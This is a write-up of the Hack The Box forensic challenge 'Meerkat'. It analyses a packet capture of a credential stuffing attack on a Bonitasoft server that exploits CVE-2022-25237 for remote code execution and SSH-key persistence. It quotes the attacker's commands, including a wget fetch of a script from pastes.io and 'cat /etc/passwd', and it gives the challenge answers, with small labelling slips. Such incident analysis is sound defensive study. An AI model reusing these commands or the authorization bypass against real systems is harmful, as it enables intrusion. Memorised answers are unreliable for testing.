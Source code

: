 # Meerkat-Analysis-Report
By analyzing a Wireshark scan report, I solved 'Meerkat', a Sherlocks type problem, which is documented in this repository.

![image](https://github.com/Mayukh-Ghara/Meerkat-Analysis-Report/assets/59330372/2ea41d92-134e-4803-b7d4-2c07fc2f8180)

Hare we download the zip file. After download we extract file with the given password.

### Task 1
We believe our Business Management Platform server has been compromised. Please can you confirm the name of the application running?

Starting with our .pcap file, we can pop that open in Wireshark and check the Endpoints table to get a feel for what IP addresses may be involved in whatever might have happened.
![image](https://github.com/Mayukh-Ghara/Meerkat-Analysis-Report/assets/59330372/a1583f37-cac5-49c1-9219-a9088f14fb3a)

![image](https://github.com/Mayukh-Ghara/Meerkat-Analysis-Report/assets/59330372/5e01d71d-2a86-4b24-b16d-11cb010201d8)
Sorting by packets under the TCP table, we can see the local host 172.31.6.44 (which we can assume to be the business management platform or an endpoint within the company) is receiving a majority of its traffic on ports 37022, 8080, 61254, 61255, and 22. TCP 37022, 61254, and 61255 are not registered for any specific services, but 8080 is an HTTP alternative and 22 is for SSH. Based on this, we can reasonably assume we’re looking at a web server.

We can see additional, notable amounts of traffic from foreign hosts 54.144.148.213, 95.181.232.30, 138.199.59.221,156.146.62.213. TCP traffic to a web server in and of itself is not immediately suspicious, so we’ll just note this down for now.

Diving into the actual stream of packets, we’ll filter by tcp.port == 8080 && ip.dst == 172.31.6.44 to take a look at some of that inbound traffic.

Right out the gate, we see an HTTP request that gives us some information on our web server.
![image](https://github.com/Mayukh-Ghara/Meerkat-Analysis-Report/assets/59330372/cb2b84b4-4dd5-44d8-b415-f24e67c0983d)
“GET /bonita HTTP/1.1” is associated with the Bonitasoft Business Process Management Software. That tells us the platform the business chose to use and a starting point when hunting for potential exploited vulnerabilities.
### Task 1 ans: Bonitasoft

### Task 2
We believe the attacker may have used a subset of the brute forcing attack category - what is the name of the attack carried out?

Browsing through Wireshark some more, we can see several POST requests made to /bonita/loginservice all from the same IP address, 156.146.62.213, each within several seconds of each other.
![image](https://github.com/Mayukh-Ghara/Meerkat-Analysis-Report/assets/59330372/be06fea5-e5ee-46bf-b72e-650c9e91d76a)

Digging into the form items of each request, we find different usernames and passwords being submitted.
![image](https://github.com/Mayukh-Ghara/Meerkat-Analysis-Report/assets/59330372/d7fd3fff-8ee8-4381-8d74-c867af45abfd)
![image](https://github.com/Mayukh-Ghara/Meerkat-Analysis-Report/assets/59330372/aae2ff5f-1fd8-4713-af89-a909193d3a73)

Based on all the traffic originating from the same IP address and the rate at which they’re being submitted, this is likely a brute force attack. Specifically, based on the usage of sets of credentials as opposed to testing multiple usernames with a single password at a time or vice versa, we can conclude this is a credential stuffing attack.
### Task 1 ans: Credential Stuffing

### Task 3
Does the vulnerability exploited have a CVE assigned - and if so, which one?

We can start searching for alerts that document this attack by searching for instances of 'Login' in our JSON file. It's a good thing we have a strong lead immediately.
![image](https://github.com/Mayukh-Ghara/Meerkat-Analysis-Report/assets/59330372/f3352485-42f5-45d9-8a70-d9343006bf36)
Investigating CVE-2022-25237, we found a critical vulnerability affecting Bonita Web 2021.2. This confirms that this is likely related to the POST requests we saw earlier.
![image](https://github.com/Mayukh-Ghara/Meerkat-Analysis-Report/assets/59330372/64d8cc5e-ed45-4cf1-9ae8-da3ea499bf80)
### Task 3 ans: CVE-2022–25237

### Task 4 
Which string was appended to the API URL path to bypass the authorization filter by the attacker's exploit?

The vulnerability works by adding 'i18ntranslation' in one of two variations to the end of a URL, which results in access to privileged API endpoints that could lead to remote code execution.
### Task 4 ans: i18ntranslation

### Task 5
How many combinations of usernames and passwords were used in the credential stuffing attack?

By using the 'http' filter in Wireshark, we were able to improve our understanding of the traffic that caused this attack.
![image](https://github.com/Mayukh-Ghara/Meerkat-Analysis-Report/assets/59330372/12fa167c-4d9f-4fb6-a324-b60c47d75e85)
We observed a flow of POST requests that were each followed by a 401 code, indicating that the credentials were invalid. A total of 56 unique sets of username-password combinations were utilized.
### Task 5 ans: 56

### Task 6
Which username and password combination was successful?

![image](https://github.com/Mayukh-Ghara/Meerkat-Analysis-Report/assets/59330372/6abd759c-d504-4da2-86b9-58bbfa0a7a69)
The username'seb.broom@forela.co.uk' and password 'g0vernm3nt' are used to try to login and get HTTP code 204, which means that authentication was successful. A total of four calls are made to the Bonita API. The CVE we identified shows that these are the credentials that were successfully breached.
### Task 6 ans: seb.broom@forela.co.uk:g0vernm3nt

### Task 7
If any, which text sharing site did the attacker utilise?

Following the successful authentication, the attacker performs a POST request to upload a file entitled “rce_api_extension.zip”.
![image](https://github.com/Mayukh-Ghara/Meerkat-Analysis-Report/assets/59330372/6005c4a5-96a8-4985-af20-ccfa42effd31)
After doing some research, we discovered the zip file in a Github repository that contained the proof-of-concept created by Rhino Security Labs during the initial disclosure of the vulnerability to Bonitasoft. This would be the best confirmation that this attack is caused by CVE-2022-25233.
The zip file is further interacted with by a subsequent POST request to set it properly within the web server’s storage.
Immediately following this upload and setup, we encounter an especially troubling GET request to the server.
![image](https://github.com/Mayukh-Ghara/Meerkat-Analysis-Report/assets/59330372/fd3dfb86-a357-4092-8e7f-d6345c4fa428)

The 'cmd' parameter is set to 'whoami', a command that allows the attacker to identify the current user they are logged into. The server's response is encoded in JSON in the next HTTP packet, as usual.
![image](https://github.com/Mayukh-Ghara/Meerkat-Analysis-Report/assets/59330372/3942ccab-7325-4bb1-be90-7eade35ee188)

The attacker has been able to gain root access to the web server, essentially granting them complete control. The attacker removes the zip file to conceal evidence of compromise while enumerating the web server.
Continuing our investigation, the attacker resumes testing username-password combinations before returning to the successful set of credentials.
![image](https://github.com/Mayukh-Ghara/Meerkat-Analysis-Report/assets/59330372/b4a6c256-43b9-4724-9201-7a066f56a761)
It's interesting that the attacker's IP address changes from 156.146.62.213 to 138.199.59.221. It is possible that this is a result of them changing their VPN, connecting from a different network, or upgrading their system.

Regardless, we can assume this is the same attacker or at the least someone connected to the original attacker as they pick up with the same attack the original IP address was used within one minute of the end of the brute force attack. 
To log back in, they use the cracked credentials, upload rce_api_extension.zip again, set it up as before, and then run another set of commands through a GET request. This time, they execute “cat /etc/passwd” to enumerate the usernames of all users set up on the web server as well details on each account. 
Once more, they delete the zip file to cover up their tracks.

This is where something new happens. The attacker uploads the zip file again like they did previously and issues a command through a GET request, but this time the command is "wget https://pastes.io/raw/bx5gcr0et8".
![image](https://github.com/Mayukh-Ghara/Meerkat-Analysis-Report/assets/59330372/264ab3d1-9d09-421c-a39b-4866ad331ad1)
The attacker is downloading something to the web server using the text sharing site “pastes.io”.
### Task 7 ans: pastes.io

### Task 8
Please provide the filename of the public key used by the attacker to gain persistence on our host.
![image](https://github.com/Mayukh-Ghara/Meerkat-Analysis-Report/assets/59330372/e428cd20-e122-432a-97f0-18ecd340f06a)
Before restarting the ssh service on the server, the attacker uploaded a bash script to the web server that downloads another text file from a different link and stores it in the authorized ssh RSA keys. 
This script file will be hashed to be added to EDRs and other security controls later to detect any further attempts to use it.
![image](https://github.com/Mayukh-Ghara/Meerkat-Analysis-Report/assets/59330372/369fda07-4d20-4acd-bc66-284aedfb8fbb)
We’ll go ahead and following the link to the other file used in the first script the attacker uploaded. Going to that webpage, we’re once again met with raw text.

![image](https://github.com/Mayukh-Ghara/Meerkat-Analysis-Report/assets/59330372/b3c133b0-6b8b-4840-92c4-8e08aaf04e66)
What’s happened is the attacker has successfully uploaded a known RSA key to the authorized ssh keys on the web server. Doing this enables them to connect to the web server over ssh using the matching private key, granting persistence.
We’ll hash this file as well to add to our filters.
![image](https://github.com/Mayukh-Ghara/Meerkat-Analysis-Report/assets/59330372/e146865a-169a-4eb9-9add-7f363b7c0c69)

### Task 8 ans: hffgra4unv

### Task 9
Can you confirmed the file modified by the attacker to gain persistence?

Reviewing the previous file we analyzed, we can see that the new SSH key was being append to the keys stored in /home/ubuntu/.ssh/authorized_keys.
### Task 9 ans: /home/ubuntu/.ssh/authorized_keys

### Task 10
Can you confirm the MITRE technique ID of this type of persistence mechanism?

We found that the attacker's actions corresponded with SSH Authorized Keys (T1098.004) under Account Manipulation in the Persistence column after investigating MITRE's ATT&CK Matrix.
### Task 10 ans: T1098.004
